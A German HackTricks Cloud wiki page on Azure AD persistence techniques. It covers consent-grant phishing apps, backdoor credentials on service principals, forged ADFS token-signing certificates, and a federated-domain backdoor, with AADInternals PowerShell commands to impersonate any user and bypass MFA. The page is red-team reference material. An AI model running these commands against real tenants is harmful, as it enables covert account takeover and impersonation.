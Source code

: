# Az - Persistence

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

### Illegale Einwilligungserteilung

Standardmäßig kann sich jeder Benutzer in Azure AD eine Anwendung registrieren. Sie können also eine Anwendung (nur für den Zielmandanten) registrieren, die hohe Berechtigungen mit administrativer Zustimmung benötigt (und sie genehmigen, wenn Sie der Administrator sind) - wie das Senden von E-Mails im Namen eines Benutzers, Rollenverwaltung usw. Dies ermöglicht es uns, **Phishing-Angriffe** durchzuführen, die im Erfolgsfall sehr **ertragreich** wären.

Darüber hinaus könnten Sie auch diese Anwendung mit Ihrem Benutzer akzeptieren, um den Zugriff darauf aufrechtzuerhalten.

### Anwendungen und Dienstprinzipale

Mit den Rechten eines Anwendungsadministrators, GA oder einer benutzerdefinierten Rolle mit microsoft.directory/applications/credentials/update Berechtigungen können wir Anmeldeinformationen (Geheimnis oder Zertifikat) zu einer bestehenden Anwendung hinzufügen.

Es ist möglich, **eine Anwendung mit hohen Berechtigungen zu zielen** oder **eine neue Anwendung** mit hohen Berechtigungen hinzuzufügen.

Eine interessante Rolle, die der Anwendung hinzugefügt werden könnte, wäre die **Rolle des privilegierten Authentifizierungsadministrators**, da sie es ermöglicht, das **Passwort** von globalen Administratoren zurückzusetzen.

Diese Technik ermöglicht es auch, **MFA zu umgehen**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Für die zertifikatsbasierte Authentifizierung

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

Mit **DA-Rechten** auf dem lokalen AD ist es möglich, **neue Token-Signierungs**- und **Token-Entschlüsselungszertifikate** zu erstellen und zu importieren, die eine sehr lange Gültigkeit haben. Dies ermöglicht es uns, **uns als jeden Benutzer** anzumelden, dessen ImuutableID wir kennen.

**Führen Sie** den folgenden Befehl als **DA auf dem ADFS-Server(n)** aus, um neue Zertifikate zu erstellen (Standardpasswort 'AADInternals'), fügen Sie sie zu ADFS hinzu, deaktivieren Sie die automatische Rollierung und starten Sie den Dienst neu:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Dann aktualisieren Sie die Zertifikatsinformationen mit Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Vertrauenswürdige Domäne

Mit GA-Rechten auf einem Mandanten ist es möglich, eine **neue Domäne hinzuzufügen** (muss verifiziert werden), ihren Authentifizierungstyp auf Federated zu konfigurieren und die Domäne so zu konfigurieren, dass sie **ein bestimmtes Zertifikat** (any.sts im folgenden Befehl) und Aussteller vertraut:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referenzen

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
